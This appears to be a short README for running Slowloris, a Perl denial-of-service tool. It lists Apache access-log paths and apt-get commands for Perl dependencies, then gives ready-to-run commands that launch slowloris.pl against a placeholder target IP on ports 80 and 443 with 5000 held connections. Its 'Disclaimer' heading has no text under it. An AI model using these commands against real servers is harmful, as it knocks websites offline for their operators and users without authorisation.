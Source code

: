 # Disclaimer

Log Web Server Apache :
------
```
/var/log/apache2/tail -f ./access.log
/var/log/apache2/access.log
```

Requirements:
------
```
sudo apt-get update  
sudo apt-get install perl
sudo apt-get install libwww-mechanize-shell-perl
sudo apt-get install perl-mechanize
```

Example Configuration :
-----
```
cd /thePathToYourSlowloris.plFile
./slowloris.pl
HTTP -> perl slowloris.pl -dns [IP_TARGET] -port 80 -timeout 200 -num 5000 -cache
HTTPS -> perl slowloris.pl -dns [IP_TARGET] -port 443 -timeout 200 -num 5000 -cache
```

